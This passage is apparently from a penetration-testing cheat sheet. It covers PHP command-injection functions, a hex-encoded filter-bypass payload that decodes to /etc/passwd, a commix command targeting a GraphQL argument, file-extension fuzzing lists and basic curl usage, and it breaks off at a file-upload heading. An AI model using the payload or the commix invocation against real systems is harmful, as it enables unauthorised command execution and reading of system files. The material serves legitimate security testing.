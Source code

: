 ## Command Injection

### Vulnerable Functions in PHP

* Exec
* Passthru
* System

### Input Sanitisation

* filter_input

### Filter Bypass

```console
$payload = "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
```

## commix

```console
$ python3 commix.py --url="http://<RHOST>:5013/graphql" --data='{"query":"query{systemDebug(arg:\"test \")}"}' -p arg
```

## Common File Extensions

```console
7z,action,ashx,asp,aspx,backup,bak,bk,bz,c,cgi,conf,config,dat,db,dhtml,do,doc,docm,docx,dot,dotm,go,htm,html,ini,jar,java,js,js.map,json,jsp,jsp.source,jspx,jsx,log,old,pdb,pdf,php,phtm,phtml,pl,py,pyc,pyz,rar,rhtml,shtm,shtml,sql,sqlite3,svc,tar,tar.bz2,tar.gz,tsx,txt,wsdl,xhtm,xhtml,xls,xlsm,xlst,xlsx,xltm,xml,zip
```

```console
.7z,.action,.ashx,.asp,.aspx,.backup,.bak,.bk,.bz,.c,.cgi,.conf,.config,.dat,.db,.dhtml,.do,.doc,.docm,.docx,.dot,.dotm,.go,.htm,.html,.ini,.jar,.java,.js,.js.map,.json,.jsp,.jsp.source,.jspx,.jsx,.log,.old,.pdb,.pdf,.php,.phtm,.phtml,.pl,.py,.pyc,.pyz,.rar,.rhtml,.shtm,.shtml,.sql,.sqlite3,.svc,.tar,.tar.bz2,.tar.gz,.tsx,.txt,.wsdl,.xhtm,.xhtml,.xls,.xlsm,.xlst,.xlsx,.xltm,.xml,.zip
```

## curl

### Common Commands

```console
$ curl --trace - http://<RHOST>
```

### Uploading Files through Upload Forms

#### POST File
